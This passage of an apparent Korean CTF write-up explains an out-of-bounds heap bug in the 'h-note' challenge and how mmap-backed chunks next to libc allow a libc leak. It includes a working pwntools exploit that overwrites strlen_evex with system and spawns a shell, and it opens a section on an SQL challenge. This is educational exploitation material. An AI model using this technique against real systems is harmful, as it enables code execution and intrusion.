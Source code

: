 ```c
    printf("Line: ");
    scanf("%d", &idx);
    cur += 0x10ULL*idx;
    printf("%s", cur);
}
```
마찬가지로 show 메뉴에서 할당된 청크로부터 임의의 offset만큼 떨어진 주소에서 0x10만큼 read할 수 있는 OOB 취약점이 주어집니다.

##### Exploit Scenario
정리해보면 힙 상에서 자유롭게 relative-read/write를 할 수 있는 상황입니다. 따라서 h-babynote처럼 할당한 청크를 해제할 수 있는 primitive가 있다면 free chunk의 포인터 정보를 leak/overwrite하는 방식으로 임의 코드를 실행할 수 있을 것입니다.

하지만 청크를 해제할 수 있는 방법이 아예 없기 때문에 힙 상에서 존재하는 청크들의 메타데이터를 아무리 자유롭게 조작해두어도 해제 및 재할당을 트리거할 수 없습니다. 따라서 해제된 청크의 포인터를 이용한 libc leak이나 임의 주소 할당을 통한 AAW를 달성하기 어렵습니다.

```
0x000055f26f843000 0x000055f26f844000 0x0000000000001000 0x0000000000003000 rw- /pwn-h-note/prob/for_organizer/chall
0x000055f2706ff000 0x000055f270720000 0x0000000000021000 0x0000000000000000 rw- [heap]
0x00007fee67ec3000 0x00007fee67ec6000 0x0000000000003000 0x0000000000000000 rw- <tls-th1>
0x00007fee67ec6000 0x00007fee67eee000 0x0000000000028000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc.so.6
```
mmap을 통해 chunk를 할당받는다면 이런 어려움을 우회할 수 있습니다. malloc에 MMAP_THRESHOLD(0x20000) 바이트 이상의 할당을 요청하면 mmap을 통해 청크가 할당됩니다. heap 영역이 다른 영역과 인접하지 않게 할당되는 것과 달리, mmap 영역(tls-th1)에 할당된 청크는 libc 영역과 바로 인접한 것을 확인할 수 있습니다.

따라서 mmap으로 청크를 할당받는다면 heap relative read/write를 libc relative read/write로 바꿀 수 있습니다. 이후에는 접근할 수 있는 아무 포인터로 libc base를 확인, system으로 strlen_evex를 덮고 printf("%s", '/bin/sh')를 호출하여 플래그를 얻을 수 있습니다.  

##### ex.py
```python
def exploit(p):
    offset = 0x246088
    
    add(0, 0x100, b"/bin/sh\x00"*0x10)
    add(1, 0x28000, b"A"*0x10) ## allocate by mmap
    show(1, offset)
    libc_base = u64(p.recv(6).ljust(8, b"\x00"))-0x1b32b0
    libc.address = libc_base
    log.info("libc_base: 0x{:x}".format(libc_base))
    system = libc.sym["system"]
    edit(1,offset, p64(system)+p64(system))
    show(0, 0)
    p.sendline("cat flag.txt")
    print(p.recv(0x100))
    p.interactive()
    return
```

#### SQL injection
메모리 안전을 위한(...) SQL을 구현하는 게 목표라는 컨샙의 문제입니다...만... 여전히 허술하다는 이미지를 심어주기 위하여 `SELECT * FROM` 같은 구문들을 입력하였을 때, out of index를 접근하려고 한다거나 하는 등의 기믹을 추가해놓았습니다. 명령어에 대한 자세한 설명은 `HELP` 커맨드를 입력하여 확인할 수 있게 해놓았으니, 생략하겠습니다. 기존에 우리가 사용하는 sql 프로젝트들과 아주 유사한 커맨드로 작동합니다.
